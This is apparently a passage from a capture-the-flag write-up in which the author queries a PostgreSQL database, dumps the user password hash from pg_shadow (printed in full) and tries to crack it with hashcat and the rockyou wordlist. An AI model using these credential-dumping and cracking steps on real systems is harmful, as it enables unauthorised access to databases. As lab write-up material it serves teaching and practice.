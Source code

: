 
We can play with the database  
```sql
SELECT datname FROM pg_database;
```
```json
[
    "postgres",
    "moon_namesdb",
    "template1",
    "template0"
]
```

Getting the hash for the db user
```sql
SELECT usename, passwd from pg_shadow;
```
```json
"values": [
    [
        "postgres",
        "grafana_viewer"
    ],
    [
        null,
        "SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY="
    ]
]
```
Which of course I attempted to crack, but didn't have any success, at least not with a simple rockyou list
```bash
hashcat -a0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 2914/5892 MB (1024 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

28600 | PostgreSQL SCRAM-SHA-256 | Database Server

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
```